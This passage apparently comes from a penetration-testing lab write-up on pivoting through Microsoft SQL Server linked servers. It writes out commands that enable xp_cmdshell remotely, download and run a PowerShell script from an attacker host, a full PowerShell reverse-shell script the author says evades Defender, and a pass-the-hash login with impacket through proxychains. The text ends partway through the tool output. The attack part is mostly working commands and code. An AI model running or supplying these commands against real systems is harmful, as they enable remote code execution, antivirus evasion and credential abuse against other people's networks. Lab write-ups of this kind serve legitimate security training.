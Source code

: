 How to use [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-use-utility?view=sql-server-ver16)?

Lets try to get linked server first cauze we already administrator and try to enum other hosts link. After all we can dump all MSSQL parts.

### First Way (dont recommend)

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 20.30.52.jpeg)

    sqlcmd -E -S "CYWEBDW" -Q "EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [m3sqlw.m3c.local]"

    sqlcmd -E -S "CYWEBDW" -Q "EXEC ('exec master..xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.14.6/a.ps1 -OutFile c:\users\public\documents\irem.ps1''') AT [m3sqlw.m3c.local]"

    sqlcmd -E -S "CYWEBDW" -Q "EXEC ('exec master..xp_cmdshell ''powershell -NoP -NonI -File c:\users\public\documents\irem.ps1''') AT [m3sqlw.m3c.local]"

    sqlcmd -E -S "CYWEBDW" -Q "EXEC ('exec master..xp_cmdshell ''powershell -NoP -NonI -File c:\users\public\documents\irem.ps1''') AT [m3sqlw.m3c.local]"

U can also use our beacon but i just wanna show u another method. This irem.ps1 im gonna share its obfs ps1 can bypass defender.

    $myClient = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);
    $myStream = $myClient.GetStream();
    [byte[]]$myBuffer = 0..65535 | % { 0 };

    while(($myRead = $myStream.Read($myBuffer, 0, $myBuffer.Length)) -ne 0) {
        $myData = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($myBuffer, 0, $myRead);
        $mySendBack = (iex $myData 2>&1 | Out-String);
        $mySendBack2 = $mySendBack + 'custom_prompt> ';
        $mySendByte = ([text.encoding]::ASCII).GetBytes($mySendBack2);
        $myStream.Write($mySendByte, 0, $mySendByte.Length);
        $myStream.Flush();
    }

    $myClient.Close();

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 20.42.26.jpeg)

AND get shell as mssql server.

### Second Way (totally recommend)

U know we already SYSTEM so why cannot dump hashes and pivoting for mssql???

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 20.49.50.jpeg)

now i can connect with the admin hash to the mssql service


    ➜  cybernetics proxychains impacket-mssqlclient Administrator@CYWEBDW -hashes :4e63f2ecad6ac1c809564e26ea764999 -windows-auth
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.13.0.dev0+20241025.203625.64673aa9 - Copyright Fortra, LLC and its affiliated companies 
